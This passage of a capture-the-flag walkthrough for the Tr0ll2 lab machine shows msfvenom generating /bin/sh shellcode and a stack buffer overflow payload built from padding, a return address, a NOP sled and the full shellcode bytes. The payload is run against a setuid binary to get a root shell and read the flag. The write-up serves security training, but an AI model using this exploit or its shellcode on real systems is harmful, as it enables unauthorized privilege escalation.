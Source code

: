 We generate our shellcode in this case msfvenom generates one of 70 bytes.

```console
root@kali:~$ msfvenom -a x86 --platform linux -p linux/x86/exec cmd=/bin/sh -b "\x00" -f python -o shellcode.txt 
```

We copy the shellcode.

```console
root@kali:~$ grep -oP '".*"' shellcode.txt | sed 's/"//g' | tr -d '\n' | xclip -sel c
```

We build our malicious instruction as follows, first with 268 A's, then with the return address **0xbffffb80**, then with 10 NOPs (\x90) and finally with the shellcode.

To run our malicious instruction we need to find the vulnerable binary, in this case the one with size 8401, and run it, giving us a root shell, if you notice we change the hex value from 80 to 60, since the address is different outside of gdb.

```console
noob@Tr0ll2:~$ find /nothing_to_see_here/ -size 8401c -name r00t
/nothing_to_see_here/choose_wisely/door2/r00t

noob@Tr0ll2:~$ $(!!) $(python -c "print('A'*268 + '\x60\xfb\xff\xbf' + '\x90'*10 + '\xba\xf7\x3d\x96\x37\xdb\xd1\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1\x0b\x83\xc3\x04\x31\x53\x11\x03\x53\x11\xe2\x02\x57\x9d\x6f\x75\xfa\xc7\xe7\xa8\x98\x8e\x1f\xda\x71\xe2\xb7\x1a\xe6\x2b\x2a\x73\x98\xba\x49\xd1\x8c\xb5\x8d\xd5\x4c\xe9\xef\xbc\x22\xda\x9c\x56\xbb\x73\x30\x2f\x5a\xb6\x36')")
id
uid=1002(noob) gid=1002(noob) euid=0(root) groups=0(root),1002(noob)
bash -i
bash: no job control in this shell
root@Tr0ll2:/home/noob#
```

We read the flag.

```console
root@Tr0ll2:/root# cat Proof.txt
cat Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```

